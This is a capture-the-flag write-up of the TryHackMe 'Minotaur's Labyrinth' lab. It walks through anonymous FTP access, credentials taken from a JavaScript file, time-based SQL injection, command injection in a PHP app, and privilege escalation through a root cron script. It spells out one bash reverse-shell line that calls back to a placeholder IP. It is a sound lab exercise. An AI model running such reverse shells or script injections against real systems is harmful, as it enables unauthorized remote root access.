# Minotaur's Labyrinth TryHackMe Writeup
### Level: `Medium` | OS: `Linux`


## Scanning
We run nmap on all ports with scripts and software versions.



## Enumeration
In the nmap, we see that there is an *FTP* that can be accessed anonymously, we mount the ftp in our kali and list the first flag.



We found the website, tried default credentials, but nothing.



We reviewed the source code, found a few comments that might be useful (or fake). We are interested in the "**login.js**" file.



#### Content of login.js file



## Exploitation
We have a comment where comes the password of the user "**Daedalus**", we make the substitution of the arrays and we obtain the credentials.



We check that the site is vulnerable to SQL Injection (Time-based).



#### We obtain databases


#### We obtain tables


#### We obtain People columns


We obtain the flat password using the hash.


We access with the administrator credentials and find a flag.


We find the secret section, we see that we can execute the **ECHO** command from this **PHP** application.



#### Testing


We tried to bypass it with `command`.

#### PoC


#### Read /etc/passwd


#### Reverse shell
We create a file with our reverse shell "*m3.sh*", download it with "**wget**" on the victim machine, give it execution permissions and execute it.



#### Executing file m3.sh



We check the version of python installed and configure the terminal to have a more interactive session.



We are looking for the location of the remaining flags.



#### Read user.txt file



## Privilege Escalation
We see the following folder which is not common on a Linux system. Inside, there is a file with a script, it may be running from time to time.



We download **pspy64**, run it and see how the user "*root (UID=0)*" is running the script every so often.



We add the following line to the file "**timer.sh**" to get a shell with the user that executes the file.

```bash
echo "bash -i >& /dev/tcp/XX.XX.XX.XX/555 0>&1" >> timer.sh
```

We wait a few minutes and we will get a shell as root and read the flag.



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)